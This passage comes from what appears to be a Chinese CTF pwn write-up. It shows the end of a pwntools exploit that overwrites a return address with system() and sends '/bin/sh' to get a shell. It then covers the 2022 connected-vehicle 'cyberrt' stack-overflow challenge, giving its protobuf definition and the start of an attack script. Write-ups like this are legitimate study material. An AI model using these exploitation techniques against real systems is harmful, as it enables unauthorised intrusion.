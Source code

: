```
    pause()
    s(p64(system_addr))
 
    ru("Hello Pls input: ")
    s("/bin/sh\x00")
 
    itr()

```

### 2.2022 车联网个人赛初赛`cyberrt`

`cyberrt`应该是一套运行时框架，说实话，我也不清楚它原始代码是干啥的，所以当时虽然做出来了，但感觉只做了一半。出题人应该是想说参数使用错误，直接用`len_`就对了。需要注意的是栈中还有很多有用的其他数据，在覆写的时候主要不要破坏这些值就行了。

![](https://bbs.kanxue.com/upload/attach/202406/894406_8CRQB4NSFWEJCKH.webp)

`proto`文件如下

```
syntax = "proto3";

message Point2D {
    double x = 1;
    double y = 2;
}

message Obstacle {
    ObstacleType type = 1;
    Point2D velocity = 2;
    Point2D position = 3;
    int32 msg_length = 4;
    repeated bytes msg = 5;
}

message Obstacles {
    repeated Obstacle obstacle = 1;
}

enum ObstacleType {
    Car = 0;
    Pedestrian = 1;
    Bicycle = 2;
    Motorcycle = 3;
}


```

攻击脚本如下

```
import obstacles_pb2
from pwn import *
import duchao_pwn_script
from sys import argv
import argparse
 
s = lambda data: io.send(data)
sa = lambda delim, data: io.sendafter(delim, data)
sl = lambda data: io.sendline(data)
sla = lambda delim, data: io.sendlineafter(delim, data)
r = lambda num=4096: io.recv(num)
ru = lambda delims, drop=True: io.recvuntil(delims, drop)
itr = lambda: io.interactive()
```